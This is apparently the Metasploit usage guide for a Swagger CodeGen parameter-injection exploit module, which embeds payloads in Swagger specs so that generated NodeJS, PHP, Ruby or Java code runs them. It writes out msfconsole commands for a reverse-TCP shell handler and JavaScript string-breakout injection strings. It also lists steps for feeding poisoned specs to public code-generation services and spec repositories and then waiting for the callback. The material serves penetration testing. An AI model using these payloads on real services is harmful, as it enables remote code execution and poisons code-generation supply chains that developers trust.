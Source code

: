 The [Swagger CodeGen parameter injector module](../../../../../modules/exploits/multi/fileformat/swagger_param_inject.rb) generates a Swagger JSON file with embedded Metasploit payloads.

In the typical case, a Swagger document defines an API.  Swagger can be automatically consumed to generate client/server code, testing and scaffolding in APIs by companies eager to provide value to the increasing need for scalable API deployment and testing.

Currently, this module supports 4 languages for delivery: NodeJS, PHP, Ruby, and Java.  These are specified by the PAYLOAD set for the exploit module.


## Verification Steps

All exploits assume a bind or reverse-tcp callback handler, with preference on reverse-tcp. 

1. Start msfconsole
2. Start a callback handler listening for a the appropriate payload (e.g.)

```
use exploit/multi/handler  
set PAYLOAD nodejs/shell_reverse_tcp

set LHOST 192.168.68.138 
set LPORT 4444

run 
```
3. Pick a target 

## Targets

**NodeJS** 

This attack looks to inject a payload into javascript by terminating a URL path string, and placing code inline without causing runtime errors.

[nodejs-codegen](nodejs-codegen.rc)

```

set PAYLOAD nodejs/shell_reverse_tcp
use exploit/multi/fileformat/swagger_param_inject

set INFO_VERSION "1.0.0"
set PAYLOAD_LOC "PATH"
set PAYLOAD_PREFIX "/a');};};return exports;}));"
set PAYLOAD_SUFFIX "(function(){}(this,function(){a=function(){b=function(){new Array('"
set SWAGGER_HOST "localhost"
run 
```


## Quick Test

Use the online [editor.swagger.io](http://editor.swagger.io) to upload your swagger document, and generate pre-built code bases from the document.  The swagger editor leverages [generator.swagger.io](http://generator.swagger.io) to build these clients & servers automatically from the document, and published downloadable artifacts of these code bases.


## Scenarios

Effective against services with either these dependencies

*  [swagger-codegen](https://github.com/swagger-api/swagger-codegen)
  * public API [generator.swagger.io](http://generator.swagger.io/)
  * public docker container [swagger-generator/](https://hub.docker.com/r/swaggerapi/swagger-generator/)
* [swagger-test-templates](https://github.com/apigee-127/swagger-test-templates)

**Possible Attack approach.**

1. Research the target environment and component dependencies.  
2. Setup appropriate payload callback listener.
3. generate the appropriate swagger document with associated MS payload (see above for examples)


**Against a webservice (2nd order attack / blind code-gen)**

*Who knows what insecurely configured code-gen Docker containers hosted in data compute or API broker cluster could do if given the chance...*
 
4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

**Against a code repository or public hosting of spec**

*People and Robots trust swagger to build clients, servers, mocks, and more.  Publicly hosted specs should be verified as to not corrupt automatic code generation.*

4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

